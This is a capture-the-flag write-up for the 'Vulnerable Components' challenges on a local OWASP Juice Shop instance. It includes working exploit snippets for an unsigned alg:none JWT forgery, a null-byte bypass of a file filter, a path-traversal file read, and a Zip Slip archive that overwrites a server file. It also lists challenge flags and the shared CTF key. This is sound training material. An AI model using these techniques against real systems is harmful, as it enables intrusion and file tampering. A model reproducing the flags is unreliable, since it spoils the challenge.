# Vulnerable Components (Juice Shop track)

**Platform:** PCGCTF · **Category:** Vulnerable Components · **Challenges:** 9 · **Points:** 8,550

**Target:** OWASP Juice Shop (`bkimminich/juice-shop`, v20.3.0), local container `pcgctf-juice-shop` at `http://localhost:3000`.

**Status:** All 9 solved on the local instance and accepted `correct` by CTFd (Day 2). Each solve mechanism and flag below was re-verified against the running Juice Shop build (`build/routes/verify.js`, `dataErasure.js`, `fileUpload.js`) — every pattern, path and `alg` matches the source, and all 9 flag hashes match `HMAC-SHA1(CTF_KEY, name)`.

## How the flags work

Juice Shop runs in CTF mode (`NODE_ENV=ctf`). When you solve a challenge it pops a green toast showing the flag, computed as:

```
flag = HMAC-SHA1(CTF_KEY, <exact challenge name>)   # hex, lowercase
```

The shared `CTF_KEY` comes from the PCGCTF player setup guide (every player uses the same one, so everyone's flags match):

```
CTF_KEY = 0ae20b40bbb05e9cbde184f7e8625a6f21eaf6cb52259c1e0f4a287709a2c62b
```

Juice Shop shows the bare hex. **PCGCTF's submit box wants it wrapped as `pcgCTF{<hex>}`.** That wrapper was the only non-obvious part — the hex itself is whatever the toast shows.

Log in to Juice Shop first (register at `/#/register`, then log in). Most of these need an authenticated session. Dismiss the cookie banner once.

---

## 1. Vulnerable Infrastructure — 450 pts

**Flag:** `pcgCTF{f060ef84315d5c5b9c6444d764326ca19bbcadf7}`

Server key `vulnerableDockerImageChallenge`. It solves when a **feedback or complaint** message mentions the vulnerable base image — MongoDB `4.4.29` (the server matches `%mongo%` AND `%4.4.29%`).

**Steps**
1. Open `http://localhost:3000/#/complain`.
2. In the message box, name the component and version, e.g.
   `Your deployment uses a known vulnerable infrastructure component: mongo 4.4.29 (MongoDB base image with known CVEs).`
3. Click Submit.



The solved toast reveals the flag `f060ef84315d5c5b9c6444d764326ca19bbcadf7`:


> The next four challenges are also "inform the shop" checks against the same feedback/complaint tables, so the complaint box at `/#/complain` solves all of them — no captcha, unlike `/#/contact`.

---

## 2. Legacy Typosquatting — 700 pts

**Flag:** `pcgCTF{55688b979c852100af38cbda0801a0b442e56d95}`

Server key `typosquattingNpmChallenge`. Culprit is the typosquat package `epilogue-js` (impersonating the real `epilogue`), present in the old backup manifest.

**Steps**
1. Grab the backup manifest. `/ftp` only serves `.md`/`.pdf`, so append a poison null byte:
   `http://localhost:3000/ftp/package.json.bak%2500.md`
2. Spot `epilogue-js` in the dependencies.
3. In `/#/complain`, submit a message naming it:
   `Your v6.2.0-SNAPSHOT package.json.bak contains a typosquatting package: epilogue-js (impersonating "epilogue").`




---

## 3. Vulnerable Library — 700 pts

**Flag:** `pcgCTF{5655086bfa1aa034ec288a254555748be6f57d4c}`

Server key `knownVulnerableComponentChallenge`. Solves on a comment naming a directly-used dependency with a high-severity vuln **and** its version. Accepted: (`sanitize-html` AND `1.4.2`) OR (`express-jwt` AND `0.1.3`).

**Steps**
1. The same `package.json.bak` shows `sanitize-html` pinned to `1.4.2` (known XSS filter bypass).
2. In `/#/complain`, submit:
   `High-severity vulnerability in a direct dependency: sanitize-html 1.4.2 is affected by a known XSS filter bypass.`



---

## 4. Frontend Typosquatting — 1000 pts

**Flag:** `pcgCTF{5c4df2528fd8162ff4605c5b628670bf7d99e403}`

Server key `typosquattingAngularChallenge`. Culprit is the frontend typosquat `ngy-cookie` (impersonating `ngx-cookie`).

**Steps**
1. Find it in the frontend bundle — open `http://localhost:3000/main.js` and search for `ngy-cookie`.
2. In `/#/complain`, submit:
   `Frontend typosquatting imposter in the Angular bundle: ngy-cookie (impersonating ngx-cookie).`




---

## 5. Supply Chain Attack — 1000 pts

**Flag:** `pcgCTF{fdaa5bcdb45b959b12c3c9d31e601c4977b3fc29}`

Server key `supplyChainAttackChallenge`. This is the 2018 `eslint-scope` credential-stealing incident. Accepted: a comment containing `eslint-scope/issues/39` OR `npm:eslint-scope:20180712`.

**Steps**
1. In `/#/complain`, submit the original report URL:
   `Supply chain risk to your credentials: https://github.com/eslint/eslint-scope/issues/39 (malicious eslint-scope 3.7.2 stole npm tokens).`



---

## 6. Unsigned JWT — 1000 pts

**Flag:** `pcgCTF{9a586b2dafe2e64a4f39d5c1a6afb4ba8daf2eb5}`

Server key `jwtUnsignedChallenge`. Forge a JWT with `alg: none` whose email is `jwtn3d@juice-sh.op`, and send it as `Authorization: Bearer`. The JWT middleware runs on any request and solves it.

**Steps** — paste into the devtools console on the Juice Shop tab:
```js
const b64 = o => btoa(JSON.stringify(o)).replace(/=/g,'').replace(/\+/g,'-').replace(/\//g,'_');
const token = b64({alg:'none',typ:'JWT'}) + '.' +
              b64({data:{email:'jwtn3d@juice-sh.op'},iat:Math.floor(Date.now()/1000)}) + '.';
await fetch('/rest/user/whoami', {headers:{Authorization:'Bearer '+token}});
```



---

## 7. Local File Read — 1000 pts

**Flag:** `pcgCTF{dbcb5a81f06eeb7555255ccf758a8eedb41e194e}`

Server key `lfrChallenge`. `POST /dataerasure` passes the `layout` field to express-handlebars as the layout file path. Two gotchas learned the hard way:

- **Auth is by the `token` cookie**, not the `Authorization` header — and the first POST calls `res.clearCookie('token')`, so set the cookie fresh each time.
- **Handlebars appends `.hbs`** to an extension-less path (so `/etc/passwd` → `/etc/passwd.hbs` → ENOENT). Target a path that already ends in an extension; `../package.json` reads the app's own `package.json`, which proves arbitrary read and isn't on the forbidden list (`ftp`, `ctf.key`, `encryptionkeys`).

**Steps** — devtools console:
```js
const tok = localStorage.getItem('token');
document.cookie = 'token=' + tok + '; path=/';
const r = await fetch('/dataerasure', {
  method:'POST',
  headers:{'Content-Type':'application/json', Authorization:'Bearer '+tok},
  credentials:'include',
  body: JSON.stringify({layout:'../package.json'})
});
console.log((await r.text()).slice(0,120)); // leaks package.json contents
```
The response body is the file content (juice-shop `package.json`, version 20.3.0) → solve.



---

## 8. Arbitrary File Write — 1350 pts

**Flag:** `pcgCTF{3c15f92cab6858f467b33c5c080d9c213637f2ef}`

Server key `fileWriteChallenge`. **Zip Slip.** The upload handler extracts `.zip` entries into `uploads/complaints/` using each entry's raw path, so an entry named `../../ftp/legal.md` resolves back to `ftp/legal.md` and overwrites it.

**Steps**
1. Build a zip whose single entry carries the traversal path:
   ```bash
   python3 -c "import zipfile; z=zipfile.ZipFile('exploit.zip','w',zipfile.ZIP_DEFLATED); z.writestr('../../ftp/legal.md','Overwritten via Zip Slip'); z.close()"
   ```
2. Upload it. Either pick it with the invoice button on `/#/complain`, or post it directly (reliable):
   ```js
   // fd = FormData with field 'file' = the exploit.zip blob
   const fd = new FormData();
   fd.append('file', zipBlob, 'exploit.zip');
   await fetch('/file-upload', {method:'POST', body:fd});   // → 204
   ```
3. Confirm: `GET /ftp/legal.md` now returns your text → solve.

